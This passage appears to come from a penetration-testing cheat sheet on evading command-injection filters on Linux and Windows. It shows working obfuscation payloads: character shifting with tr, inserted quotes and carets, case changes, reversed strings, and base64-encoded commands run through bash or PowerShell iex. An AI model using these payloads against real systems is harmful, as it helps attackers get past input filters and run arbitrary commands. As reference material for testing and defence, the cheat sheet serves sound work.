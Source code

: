   - Character Shifting:

    1. ```bash
       man ascii	# Shows ascii table
       ```

    2. Spot the character you need and select the previous one

    3. `$(tr '!-}' '"-~'<<<[PREV_CHAR])`

- **Linux Commands**

  - single `'` or double `"` quotes, e.g. `w'h'o'am'i` (even number)

  - `\`

  - `$@`

  - Alternating cases (e.g. `WhOaMi`) or all capital (e.g. `WHOAMI`)

    ```bash
    $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
    ```

  - Reverse letters (imaohw` instead of `whoami)

    ```bash
    $(rev<<<'imaohw')
    ```

  - Encoding `base64`, `xxd` (use `echo -n`)

    ```bash
    bash<<<$(base64 -d<<<[BASE64_COMMAND])
    ```

- **Windows Commands** 

  - single `'` or double `"` quotes, e.g. `w'h'o'am'i` (even number)

  - `^`

  - Alternating cases (e.g. `WhOaMi`) or all capital (e.g. `WHOAMI`)

  - Reverse letters (imaohw` instead of `whoami)

    ```powershell
    iex "$('imaohw'[-1..-20] -join '')"
    ```

  - Encoding

    ```bash
    echo -n whoami | iconv -f utf-8 -t utf-16le | base64
    ```

    ```powershell
    iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('[BASE64_COMMAND]')))"
    ```
